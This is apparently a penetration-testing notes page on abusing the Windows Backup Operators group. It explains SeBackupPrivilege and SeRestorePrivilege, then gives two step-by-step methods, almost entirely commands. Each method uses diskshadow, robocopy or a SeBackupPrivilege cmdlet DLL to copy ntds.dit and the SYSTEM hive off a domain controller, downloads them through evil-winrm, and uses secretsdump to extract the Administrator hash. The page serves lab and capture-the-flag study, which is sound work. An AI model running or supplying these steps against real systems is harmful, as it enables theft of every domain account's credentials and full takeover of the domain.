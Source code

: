 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Backup Operators

## Information

Backup Operators can **back up and restore all files on a computer**, including OS files, regardless of the permissions that protect those files. Because members of this group can replace files on DCs, they're considered **service administrators**.

> Well known SID/RID: `S-1-5-32-551`.

<table><thead><tr><th width="205">Privilege</th><th>Description</th></tr></thead><tbody><tr><td><a href="https://learn.microsoft.com/en-us/windows/device-security/security-policy-settings/back-up-files-and-directories">SeBackupPrivilege</a></td><td>Allows us to create backups of any files, whilst not restoring their permissions, which equals to <strong>arbitrary read access</strong>.</td></tr><tr><td><a href="https://learn.microsoft.com/en-us/windows/device-security/security-policy-settings/restore-files-and-directories">SeRestorePrivilege</a></td><td>Allows us to <strong>overwrite legitimate executable files</strong> with versions that include malicious software used for <strong>privilege escalation</strong>.</td></tr></tbody></table>

## Exploitation

### Dumping ntds.dit

#### Method 1

Create a [**diskshadow**](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow) script from the attack host to expose the `c:` drive.

{% code overflow="wrap" %}
```bash
# creating a diskshadow script
nano diskshadow_script
# listing its content
cat diskshadow_script
set context persistent nowriters
add volume c: alias random
create
expose %random% z:
# converting file into a Windows-compatible format
$ sudo unix2dos diskshadow_script
unix2dos: converting file diskshadow_script to DOS format...
```
{% endcode %}

[Transfer](../../../../tools/tools/file-transfers.md) the script to the target host and execute the following steps. In the example below, `evil-winrm` is used to transfer the files between the attack and the target host, via its `upload` and `download` methods.

```powershell
# move within a writeable directory
cd c:\windows\temp
# upload the diskshadow script
upload diskshadow_script
# expose the shadow copy
diskshadow /s diskshadow_script
# copy the ntds.dit database
robocopy /b z:\windows\ntds . ntds.dit
# copy the system.hive file
reg save hklm\system c:\windows\temp\system.hive
# download both files
download ntds.dit
download system.hive
```

Dump the `ntds.dit` from the attack host.

{% code overflow="wrap" %}
```bash
# dump the ntds.dit data and extract the administrator's hash
impacket-secretsdump -ntds ntds.dit -system system.hive LOCAL | grep Administrator
```
{% endcode %}

For an example of the above method check [here](../../../../boxes/boxes/hard/blackfield.md#exfiltrating-victory).

#### Method 2

Download the `SeBackupPrivilegeUtils.dll` and `SeBackupPrivilegeCmdLets.dll` from [here](https://github.com/giuliano108/SeBackupPrivilege) on the attack host and transfer them to the target along with the diskshadow script ([Method 1](backup-operators.md#method-1))  (on the example below `evil-winrm` is used).

```powershell
# move to a writeable directory
cd C:\Temp
# upload files
upload diskshadow_script
upload SeBackupPrivilegeUtils.dll
upload SeBackupPrivilegeCmdLets.dll
# import DLLs into memory
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
# expose the shadow copy
diskshadow /s raj.dsh
```

Unlike [Method 1](backup-operators.md#method-1), this time we will be using the `Copy-FileSebackupPrivilege` cmdlet (part of the DLL files) to copy the `ntds.dit` file from the `z:` volume to the `Temp` directory.

```powershell
# copy ntds.dit to Temp
Copy-FileSebackupPrivilege z:\Windows\NTDS\ntds.dit C:\Temp\ntds.dit
# copy system.hive
reg save hklm\system c:\Temp\system
# exfiltrate files
download ntds.dit
download system
```

Dump the `ntds.dit` from the attack host.

```bash
# dump the ntds.dit data and extract the administrator's hash
impacket-secretsdump -ntds ntds.dit -system system.hive LOCAL | grep Administrator
```

## Resources

{% tabs %}
{% tab title="Backup Operators" %}
{% embed url="https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#backup-operators" %}
{% endtab %}

{% tab title="SeBackup" %}
{% embed url="https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/" %}
{% endtab %}
{% endtabs %}
